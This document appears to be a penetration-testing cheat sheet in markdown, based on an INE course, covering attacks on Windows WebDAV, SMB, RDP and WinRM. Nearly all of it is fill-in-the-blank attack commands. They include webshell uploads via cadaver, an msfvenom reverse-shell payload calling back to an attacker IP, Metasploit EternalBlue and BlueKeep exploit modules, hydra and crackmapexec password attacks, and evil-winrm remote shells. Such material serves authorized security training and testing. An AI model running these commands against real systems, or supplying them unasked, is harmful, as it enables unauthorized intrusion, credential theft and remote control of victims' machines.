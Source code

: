 # Windows Vulnerabilities

* [Microsoft ISS WebDAV](#microsoft-iss-webdav)
* [SMB](#smb)
* [RDP](#rdp)
* [WinRM](#winrm)
* [References](#references)

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Microsoft ISS WebDAV
```
davtest -url [URL]
```
```
davtest -auth [USERNAME]:[PASSWORD] -url [URL]
```
```
cadaver [URL]
```
Once inside cadaver prompt:
```
put [MALICIOUS-WEBSHELL]
```
Now Check ISS WebDAV via internet browser to perform objectives...

### Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f asp > [FILENAME]
```
Now put payload on target machine by any means (cadaver works well, see command above)  

Next set up and start a listenr:  
```
service postgresql start && msfconsole
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
Set other required options and exploit

#### Automate the above process

```
use exploit/windows/iss/iss_webdav_upload_asp
```
Now set required options and exploit.  
****************************************

## SMB

### Metasploit
```
service postgresql start && msfconsole
```
#### Dictionary Attack
```
search smb_login
```
```
use auxiliary/scanner/smb/smb_login
```
Show options, set them, and exploit the target

#### PSExec Module
```
search psexec
```
```
exploit/windows/smb/psexec
```
Show options, set them, and exploit the target


### PSExec
```
psexec.py [USERNAME]@[TARGET-IP] cmd.exe
```

### Eternal Blue
Check for vulnerability:
```
nmap -sV -p 445 --script=smb-vuln-ms17-010 [TARGET-IP]
```
#### Auto Blue GitHub (Manual Exploit)
https://github.com/3ndG4me/AutoBlue-MS17-010

#### Metasploit
```
search eternalblue
```
Check for vulnerability:
```
use auxiliary/scanner/smb/smb_ms17_010
```
Exploitation:
```
use exploit/windows/smb/ms17_010_eternalblue
```
Show options, set them, and exploit

**************************************

## RDP

### Metasploit

```
search rdp_scanner
```
```
use auxiliary/scanner/rdp/rdp_scanner 
```
show options, set them, and run on target to show RDP info 

#### BlueKeep
```
search BlueKeep
```
```
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```
show options, set them, and run to show if target is vulnerable to BlueKeep
```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
```
show targets
```
set target to the version of Windows the target machine is running:
```
set target [ID]
```
show options, set them, and exploit the target to get meterpreter shell

### hydra
Dictionary attack:
```
hydra -L [WORDLIST] -P [WORDLIST] rdp://[TARGET-IP] -s [NON-DEFAULT-PORT]
```

### xfreedrp
Login:
```
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[TARGET-IP]:[PORT]
```

**************************************

## WinRM

### crackmapexec

Crack Password:
```
crackmapexec [PROTOCOL] [TARGET-IP] -u [USERNAME] -p [WORDLIST]
```

Execute Commands:
```
crackmapexec winrm [TARGET-IP] -u administrator -p [PASSWORD] -x "[COMMAND]"
```

### Obtain Shell with evil-winrm.rb

```
evil-winrm.rb -u [USERNAME] -p '[PASSWORD]' -i [TARGET-IP]
```

### Metasploit

```
search winrm_script
```
```
use exploit/windows/winrm/winrm_script_exec
```
```
set FORCE-VBS true
```
set options, and exploit

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
